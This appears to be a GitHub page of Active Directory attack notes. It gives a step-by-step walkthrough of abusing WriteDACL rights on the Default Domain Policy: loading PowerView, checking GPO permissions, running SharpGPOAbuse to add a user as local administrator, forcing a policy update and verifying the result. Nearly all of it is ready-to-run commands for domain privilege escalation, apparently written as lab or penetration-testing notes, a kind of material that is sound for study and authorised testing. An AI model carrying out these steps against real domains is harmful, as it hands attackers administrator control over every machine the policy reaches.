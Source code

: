 ### 1. Verify WriteDACL Permissions

Ensure you have the correct permissions on the Default Domain Policy.
#### Check Permissions
![Pasted image 20250519122035](https://github.com/user-attachments/assets/b92f76e8-9afc-45dc-b54b-6c94ff110c0f)

---

### 2. Retrieve the Default Domain Policy

Run `powerview.ps1` and retrieve the Default Domain Policy to confirm access.
#### Load PowerView

```powershell
. .\powerview.ps1
```

#### Get the Default Domain Policy

```powershell
Get-GPO -Name "Default Domain Policy"
```

If successful, this confirms that you can interact with the Default Domain Policy.
![Pasted image 20250519122143](https://github.com/user-attachments/assets/67031f0b-8bf9-47f2-b481-df034c083b7f)


What are our permissions?
``` shell
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh
```
![Pasted image 20250519122224](https://github.com/user-attachments/assets/7dee67f9-a973-4d62-818a-c56f65fd6d30)


---

### 3. Add a Local Administrator Using SharpGPOAbuse

Use [SharpGPOAbuse](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Tools/SharpGPOAbuse.exe) to add yourself as a local administrator.

#### Command to Add a Local Administrator

```cmd
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <YourUsername> --GPOName "Default Domain Policy"
```

- **`--GPOName`**: Specifies the target GPO (Default Domain Policy in this case).
- **`--UserAccount`**: Replace `<YourUsername>` with your domain username.
#### Example
![Pasted image 20250519122523](https://github.com/user-attachments/assets/45eb9e4a-bbc0-483c-be3a-5cee90f721cc)

### 4. Force GPUpdate 
``` powershell
gpupdate /force
```

### 5. Check User
``` powershell
net localgroup administrators
```

